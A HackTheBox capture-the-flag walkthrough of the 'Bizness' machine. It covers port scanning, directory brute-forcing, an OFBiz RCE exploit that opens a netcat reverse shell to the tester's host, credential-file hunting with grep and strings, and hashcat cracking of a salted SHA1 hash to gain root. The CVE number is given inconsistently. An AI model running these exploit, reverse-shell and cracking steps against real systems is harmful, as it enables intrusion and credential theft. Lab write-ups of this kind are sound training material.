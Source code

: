 +++ 
draft = false
date = 2024-02-02T13:07:16+01:00
title = "Bizness HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Hash cracking", "Hashcat", "CVE-2023-51457", "Dirsearch"]
categories = []
externalLink = ""
series = []
+++


![image](15.png#center)

[comment]: <> (Insertar imagen de la carátula de la máquina)


The Bizness HTB machine is an easy difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

        - Dirsearch
        - CVE-2023-51467
        - Grep, find and strings
        - Hashcat


## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.252 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](1.png)

It looks like ports 20 and 80 and 443 are open. Classic open ports for SSH and HTTP/HTTPS. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80,443 10.10.11.252 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](2.png)

## Directory discovery

Now lets try to enumerate subdirectories via brute force with Dirsearch, a open-source python tool that can be found in [GitHub](https://github.com/maurosoria/dirsearch.git). 

First, we add the website to our /etc/hosts file and then we run the following command:

```sh
dirsearch -u https://bizness.htb/ --exclude-status 403,404
```

![image](5.png)

The directory bruteforce reveals the /control/login page. There is nothing of interest besides the login and Join HTB buttons. 

![image](6.png)

On the down right corner, we can see the release of the OFBiz software.

![image](7.png#center)

Doing some investigation, it turns out that Ofbiz is vulnerable to a authentication bypass and RCE because of [CVE-2023-51467](https://www.cvedetails.com/cve/CVE-2023-51467/ "CVE-2023-51467 security vulnerability details"). 

## Initial access

First we clone a [GitHub PoC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) for CVE-2023-51457 written by the researcher abdoghazy2015. Then, for the PoC to work, we have to download ysoserial-all.jar into the same folder.

```sh
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

The script doesnt work out of the box. However, its because its written to run with openjdk 11. We have the install that version specifically:

```sh
sudo apt-install openjdk-11-jdk
sudo apt-install openjdk-11-jre
```

And then we have to select java 11 by running

```sh
sudo update-alternatives --config java 
```

Now we are ready to execute the exploit. We have to run set up a netcat listener in another terminal by running:

```sh
nc -lvnp 1234
```

This is where we are going to catch the reverse shell. Now, to run the exploit, execute:

```python
python3 exploit.py https://bizness.htb shell 10.10.14.75:1234
```

![image](8.png)

We get the reverse shell.

![image](3.png)

The user flag can be obteined in the /home/ofbiz directory.

![image](4.png)


## Privilege escalation

We now have to enumerate this machine. A quick and easy way is to use the find and grep tools to search for files containing interesting strings like admin and password. If we run the following command...

```sh
find . -type f -name '*Admin*'
```
...we can search for a file that has the string "Admin" in its name. This is how we discover a interesting file:

![image](9.png)
![image](10.png)

By reading the file /framework/resources/templates/AdminUserLoginData.xml, we get some sort of password... but both Hashcat and JohnTheRipper fail to crack it. It might be a salted password, but we have to keep searching in any case.

There is also a Derby database in the machine. There is a lot of data and files, so we need to search efficiently using strings and grep.

```sh
strings -f * | grep -iE "pass"
```

![image](11.png)

It looks like we got another password, in this case it contains the salt. It is the data between the two dollar signs. In this case, the salt is \$d\$.

```sh
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

We have to sanitize the hash first, since it looks encoded. We can use [cyberchef](https://gchq.github.io/CyberChef):

![image](12.png)

Now that we have the hash sanitized, its time to crack it using hashcat.

```sh
echo "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash
```

```sh
hashcat -m 120 -a 0 -d 1 ./hash /usr/share/wordlists/rockyou.txt 
```

We have to use mode 120 for the format of hash that we provided. In this case, it is a SHA1 hash, and the hash format is hash:salt.


![image](13.png)

We got the password!! Now we just have to run su and enter the password to get a root terminal.

![image](14.png)

Lastly, we can grab the root flag and the machine is done!!

![image](15.png#center)


